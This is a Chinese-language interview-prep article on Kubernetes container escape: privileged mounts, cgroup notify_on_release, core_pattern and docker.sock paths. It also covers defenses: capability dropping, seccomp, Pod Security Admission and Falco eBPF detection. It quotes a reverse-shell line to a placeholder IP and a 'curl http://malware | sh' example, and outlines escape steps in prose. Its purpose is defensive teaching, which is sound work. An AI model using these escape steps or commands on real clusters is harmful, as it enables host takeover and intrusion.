






**TL;DR：** 在很多开发者的潜意识里，容器似乎是一个与宿主机物理隔离的坚固“沙箱”。然而在 Linux 操作系统的物理本质下，**容器内的进程直接运行在宿主机的共享内核之上，容器内的 UID 0（root）在默认未开启 User Namespace 时，在内核全局用户表中与宿主机 root 用户完全等同！** 一旦攻击者利用应用层漏洞（如 RCE、Log4j、反序列化）拿到容器内的 Web Shell，如果容器配置不当，攻击者只需数秒钟便能突破容器边界，夺取整个物理节点乃至全集群的最高控制权，完成致命的**容器逃逸（Container Escape）**。防范逃逸绝不能仅靠事后补丁，而必须构筑深度防御纵深：在编译部署期基于 **Pod 安全准入（PSA）** 坚决砍除特权；在内核执行期通过 **Capabilities 最小化**、**seccomp 系统调用过滤** 与 **AppArmor/SELinux 强制访问控制** 锁死攻击面；在动态运行时依托 **eBPF（Falco）** 直接在内核 `sys_enter` / `sys_exit` 探针挂载微秒级感知探针，实现任何非法反弹 Shell 与内核提权的**无感捕获与零信任阻断**。

---

## 一、 面试现场：从“容器内拿到了 root”到“宿主机沦陷逃逸”的连环追问

```text
面试官提问：
  "假设攻击者利用某个未知的 0-day 漏洞突破了你负责的支付系统业务容器，拿到了一个 Bash root 交互 Shell。
   请问：
   1. 攻击者此时在宿主机视角下到底是不是真正的超级管理员？有哪些经典的操作系统机制能让他直接‘逃离’容器，拿到宿主机控制权？
   2. 为什么现代 Kubernetes 集群明令禁止在生产 YAML 中配置 privileged: true 和 hostPath？背后的物理逃逸链条是什么？
   3. 传统的杀毒软件（HIDS）在容器环境为什么几乎完全失效？新一代基于 eBPF 的 Falco 是如何在内核层实时捕获反弹 Shell 与敏感目录读取的？"
```

### 1.1 初级候选人的典型翻车点

许多没有接触过底层攻防对抗的候选人，往往会陷入以下致命误区：
- **致命误区一（盲目迷信容器沙箱隔离）**：“容器有自己的操作系统，哪怕黑客拿到了 root，他也只能在这个容器目录里瞎折腾，绝对影响不到宿主机和其他容器。”
  - **真相**：大错特错！容器根本没有自己的操作系统内核。只要容器配置了特权参数（如 `--privileged`），或者被赋予了 `CAP_SYS_ADMIN` 权限，攻击者只需要执行一行 `mount /dev/sda1 /mnt` 挂载宿主机根磁盘，然后往宿主机 `/mnt/etc/shadow` 或 `/mnt/root/.ssh/authorized_keys` 写入后门，即可在 1 秒内直接以 root 登录物理宿主机！
- **致命误区二（以为只要不配 privileged 就绝对安全）**：“我们 YAML 里严格禁用了 `privileged: true`，所以黑客绝对逃不出去。”
  - **真相**：极其片面。即使没有 `privileged`，如果 Pod 挂载了敏感的宿主机目录（如宿主机 `/proc` 目录、Docker/Containerd 的 UNIX Socket 文件 `/var/run/docker.sock`），攻击者依然可以利用内核 `core_pattern` 管道注入，或者直接向 Docker Daemon 发送 REST API 创建一个逃逸特权容器。

### 1.2 资深工程师的破局切入点

资深云原生安全架构师在回答该问题时，必须能够清晰呈现**由浅入深的三大经典逃逸攻击链拓扑**，并推导**纵深防御矩阵**：



---

## 二、 容器逃逸的物理本质与经典漏洞攻防逆向

### 2.1 逃逸路径一：`privileged: true` 特权容器的秒级沦陷

当在 Kubernetes 的 Pod Spec 中声明：
```yaml
securityContext:
  privileged: true
```
Docker/Containerd 会直接将宿主机所有的硬件设备节点（`/dev/*`）全部映射进入容器内部，并且**向容器直接授予所有的 Linux Kernel Capabilities**，同时关闭所有 seccomp 和 AppArmor 限制！



### 2.2 逃逸路径二：`CAP_SYS_ADMIN` 与 `notify_on_release` 核心逃逸

有些运维人员为了在容器内使用某些管理功能，单独为容器赋予了 `CAP_SYS_ADMIN` 权限。
攻击者利用 Linux 内核 cgroups v1 的 `notify_on_release` 机制，可以在容器内触发宿主机内核主动执行宿主机权限的代码：



### 2.3 逃逸路径三：挂载宿主机 `/proc` 目录与 `core_pattern` 管道逃逸

如果研发人员在 Pod 中通过 `hostPath` 挂载了宿主机的 `/proc` 目录（例如试图在容器内读取宿主机进程状态），攻击者可以通过修改 `/proc/sys/kernel/core_pattern` 实现逃逸：
在 Linux 中，当进程发生段错误（Segmentation fault）崩溃时，内核会读取 `core_pattern` 决定如何保存 Core Dump。如果该配置以管道符号 `|` 开头，内核会**在宿主机环境中直接以 root 身份执行后面的命令**！
攻击者只需向挂载的 `/proc/sys/kernel/core_pattern` 写入反弹脚本路径，然后在容器内主动制造一个空指针异常（`kill -SEGV $$`），宿主机内核便会立即被引诱执行恶意脚本。

---

## 三、 内核防线：从 Capabilities 剪裁、seccomp 到 AppArmor

要从根源上粉碎上述逃逸链条，必须在底层 Linux 内核中建立层层设防的严密防线：



### 3.1 Linux Capabilities 绝对最小化剪裁

在 Kubernetes 生产规范中，必须坚决执行 **“全部丢弃，按需补回”** 策略：
```yaml
securityContext:
  capabilities:
    drop:
    - ALL # 彻底剥离包括 CAP_SYS_ADMIN、CAP_NET_RAW 等在内的一切权能
    add:
    - NET_BIND_SERVICE # 仅允许监听 1024 以下端口（如果必须）
```
一旦移除了 `CAP_SYS_ADMIN`，哪怕攻击者拿到容器内 root，执行 `mount` 或配置 `cgroups` 时，内核会直接返回 `-EPERM`（Operation not permitted），逃逸攻击在第一道关卡被瞬间锁死。

### 3.2 seccomp-BPF：系统调用白名单

Linux 提供了 400 多个系统调用，而绝大多数 Web 应用正常运行只需要其中的 40~50 个。
Kubernetes 1.25+ 引入了官方默认安全配置文件 `RuntimeDefault`：
```yaml
securityContext:
  seccompProfile:
    type: RuntimeDefault
```
底层基于 BPF 程序在系统调用入口执行过滤，直接从内核层面**封杀了 `keyctl`、`ptrace`、`sys_chroot`、`unshare`** 等被黑客广泛用于内核提权或命名空间逃逸的冷门危险指令。

---

## 四、 新一代运行时安全底座：Falco 与 eBPF 内核零信任探测

静态防御（Capabilities / seccomp）固然重要，但无法感知“合法权限下的恶意行为”。同时，传统的基于用户态轮询的杀毒软件（HIDS）在容器环境下因为缺少容器元数据、且引入高达 20% 的 CPU 损耗而彻底被弃用。
**Falco（CNCF 顶级毕业项目）** 借助 **eBPF（Extended Berkeley Packet Filter）** 技术，开启了云原生实时入侵检测的新纪元。



### 4.1 Falco eBPF 探针如何捕获反弹 Shell？

当黑客利用漏洞在容器内执行反弹 Shell（如 `bash -i >& /dev/tcp/10.0.0.1/4444 0>&1`）时，其底层必然触发两个系统调用：
1. `execve`（启动一个交互式 shell，如 `/bin/sh` 或 `/bin/bash`）；
2. 随后通过 `socket`、`connect` 系统调用建立反向网络连接，并调用 `dup2` 将文件描述符重定向至 socket。

Falco 在内核态直接读取系统调用参数，并与安全规则进行秒级匹配：

```yaml
# Falco 规则示例：捕获容器内异常启动交互式 Shell 并反向连接
- rule: Terminal Shell in Container
  desc: A shell was spawned by a container with an attached terminal
  condition: >
    spawned_process and container
    and shell_procs and proc.tty != 0
    and container.image.repository not in (my_debug_images)
  output: >
    [CRITICAL] 捕获容器内可疑交互式 Shell 终端启动! 
    (user=%user.name user_loginuid=%user.loginuid pod=%k8s.pod.name 
    namespace=%k8s.ns.name image=%container.image.repository 
    cmdline=%proc.cmdline connection=%fd.name)
  priority: CRITICAL
  tags: [container, mitre_execution]
```

### 4.2 为什么 eBPF 性能远超传统 Auditd？

- **零上下文切换**：eBPF 程序在内核上下文就地执行过滤，只有命中了恶意规则的系统调用事件才会被推送到环形缓冲区，过滤了 99.9% 的正常调用，CPU 损耗从传统 Auditd 的 15% 压降至 **1.5% 以下**；
- **防篡改（Tamper-Proof）**：eBPF 探针加载在宿主机内核深处，即使黑客在容器内获取了 root 权限，他也无法看到、无法修改宿主机内核中的 eBPF BPF Map 探针，彻底杜绝了“入侵后杀掉监控进程”的经典手法。

---

## 五、 生产级 Pod 安全标准（PSS / PSA）加固规范

Kubernetes 1.25 正式移除了陈旧的 PodSecurityPolicy（PSP），取而代之的是内置于 API Server 准入控制中的 **Pod Security Admission (PSA)**。



在核心生产命名空间，必须通过打 Label 强制启用 `Restricted` 严格模式：

```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: payment-core
  labels:
    pod-security.kubernetes.io/enforce: restricted
    pod-security.kubernetes.io/enforce-version: latest
    pod-security.kubernetes.io/warn: restricted
```

在此模式下，任何未声明 `runAsNonRoot: true`、试图挂载 `hostPath`、未声明 `readOnlyRootFilesystem: true`、或未 drop 完所有权能的 Pod，在 `kubectl apply` 的瞬间**会被 API Server 直接拒绝创建**，将风险在源码准入期 100% 阻断。

---

## 六、 面试通关复盘与架构师高分回答模板

### 6.1 现场 2 分钟极速电梯演讲

> “面试官，在 Linux 物理视角下，容器进程直接运行在宿主机共享内核上，容器内的 root 默认在内核态就是超级用户。因此，防止黑客逃逸绝不能寄希望于脆弱的容器边界，而必须构筑**‘三道不可突破的纵深防线’**：
> 
> 1. **第一道防线：静态准入阶段基于 PSA 锁死特权攻击面**。在生产命名空间强制开启 `Pod Security Admission: Restricted` 模式，物理上绝对封杀 `privileged: true`、禁止挂载宿主机 `/proc`、`/dev` 与 Docker Socket；强制启用 `runAsNonRoot: true` 与 `readOnlyRootFilesystem: true`（只读根文件系统），使黑客无法落盘任何后门二进制程序；
> 2. **第二道防线：内核执行期剪裁 Capabilities 与启用 seccomp**。在所有容器 Spec 中强制声明 `drop: ["ALL"]` 剥离包括 `CAP_SYS_ADMIN` 在内的一切危险权能，使 `mount` 与 cgroups `release_agent` 逃逸从内核层失效；同时挂载官方 `RuntimeDefault` seccomp 配置文件，阻断 300 多个可能被用于内核提权的敏感系统调用；
> 3. **第三道防线：运行时动态感知基于 eBPF（Falco）实现零信任监控**。在宿主机内核 Tracepoint 部署 Falco eBPF 探针，以低于 1.5% 的极低性能损耗，微秒级捕获非法 `execve` 反弹 Shell、敏感文件篡改与未授权命名空间穿越，并在检测到攻击时联动准入控制器瞬间斩断网络连接或杀死隔离 Pod。”

### 6.2 生产面试关键避坑守则

1. **绝对禁止挂载 Docker/Containerd Socket**：研发在写 CI/CD 工具（如 DinD）时，喜欢通过 `hostPath: /var/run/docker.sock` 挂载宿主机套接字。攻击者拿到该 Socket 后，可以直接调用 Daemon REST API 创建一个特权容器，完成 100% 毫无阻碍的秒级逃逸。必须强制改用 Kaniko、BuildKit 或 rootless 独立容器构建工具；
2. **只读根文件系统（readOnlyRootFilesystem）的威力**：将业务容器的 root 设为只读，如果有写临时日志需求，单独挂载一个 `emptyDir` 内存卷。攻击者哪怕拿到 Shell，也无法执行 `curl http://malware | sh` 下载木马或编译可执行文件，直接瓦解了 80% 的攻击载荷；
3. **区分宿主机 root 与容器 root：User Namespace 革命**：Kubernetes 1.27+ 引入了对 **User Namespaces** 的原生支持。它使得容器内的 UID 0（root）被映射为宿主机上的普通非特权用户（如 UID 100000）。哪怕黑客在容器内获取了最高权限，由于在宿主机视角只是一个平民用户，其任何试图读写宿主机文件的动作均会被内核权限机制直接拦截；
4. **警惕 eBPF 探针丢失事件（Drop Events）**：在超大规模集群中，如果系统调用产生极高并发，Falco 的 BPF Ring Buffer 可能发生溢出丢事件。生产落地必须结合 PromQL 监控 `falco_buffer_drops_total`，并合理调大 `perf_buf_size` 缓冲区大小。

---

## 参考资料与权威规范

1. Kubernetes Documentation. *Pod Security Standards (Privileged, Baseline, Restricted) & Admission Controller*.
2. CNCF Falco Documentation. *Real-time eBPF Runtime Threat Detection & Rules Engine*.
3. Linux Foundation. *Linux Capabilities(7) and Seccomp BPF System Call Filtering Manual*.
4. Tejun Heo. *cgroups notify_on_release Vulnerability Post-Mortem & Security Advisory*.
5. OWASP Top 10. *Kubernetes Security Top 10: Insecure Workload Configurations & Escape Vectors*.
